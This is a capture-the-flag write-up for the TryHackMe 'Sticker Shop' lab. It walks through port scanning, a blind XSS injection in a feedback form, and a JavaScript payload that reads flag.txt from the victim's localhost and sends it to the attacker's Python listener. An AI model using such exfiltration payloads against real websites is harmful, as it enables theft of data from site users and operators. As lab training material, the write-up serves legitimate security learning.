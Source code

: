# The Sticker Shop

https://tryhackme.com/room/thestickershop

## Nmap Scan
First and foremost, we need to use nmap scan to discover the open ports. In this lab, there are 2 open ports, `port 22` and `port 8080`. 

![Nmap Scan of the machine](images/image-1.png)


## Web App
This room prompts us to read the content in `http://10.10.12.79:8080/flag.txt`. Try typing it in the address bar. As you can see, the `401 Unauthorized` message is shown on the screen.

![Flag.txt page](images/image-2.png)

Now, try navigating to `http://10.10.12.79:8080/`. We can see the web page of the sticker shop. It has 2 pages, **Home** and **Feedback** page. 

![Home page](images/image-3.png)

Now we know that there is an input field for us to submit the customer’s feedback. Maybe we can perform some attacks here. This makes me think of XSS. We can try to perform Blind XSS on this page. 

![Feedback page](images/image-4.png)

Start a python server first. It will be listening on port 80. Use `sudo python3 -m http.server 80` as the command to develop the server. 

![Python server](images/image-5.png)

Then inject the payload in the input field. We are using `<script src='http://10.17.25.198/'></script>` as our payload. Now go back to the terminal, we can see that the server is accepting requests.

![Payload injection](images/image-6.png)

Now we need to craft a JavaScript payload that fetches the flag from the server’s localhost as they said that the sticker shop hosts everything on the same computer they use for browsing the internet and looking at customer feedback. The payload is shown as below:

```JavaScript
'"><script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<10.17.25.198:80/?flag=' + encodeURIComponent(data));
    });
</script>
```

![Payload injection 2](images/image-7.png)

After submitting the payload in the feedback form, go back to the terminal. We can see our HTTP server has captured the flag in the query string of an incoming GET request. 

![Flag captured](images/image-8.png)
